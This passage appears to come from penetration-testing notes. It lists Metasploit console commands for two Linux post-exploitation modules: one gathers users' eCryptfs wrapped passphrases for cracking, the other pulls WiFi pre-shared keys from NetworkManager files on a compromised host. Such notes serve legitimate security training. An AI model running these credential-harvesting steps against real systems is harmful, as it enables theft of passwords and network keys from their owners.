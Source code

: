 <figure><img src="../../../../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Enumerate users' **.ecrypts directories**

```bash
search ecryptfs_creds
use post/linux/gather/ecryptfs_creds
info
# Description:
#   This module will collect the contents of all users' .ecrypts 
#   directories on the targeted machine. Collected "wrapped-passphrase" 
#   files can be cracked with John the Ripper (JtR) to recover "mount 
#   passphrases".
sessions
set SESSION 2
run
```

<figure><img src="../../../../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

* Enumerate **WiFi credentials**

```bash
search enum_psk
use post/linux/gather/enum_psk
info
# Description:
#   This module collects 802-11-Wireless-Security credentials such as 
#   Access-Point name and Pre-Shared-Key from your target CLIENT Linux 
#   machine using /etc/NetworkManager/system-connections/ files. The 
#   module gathers NetworkManager's plaintext "psk" information.
set SESSION 2
run
```
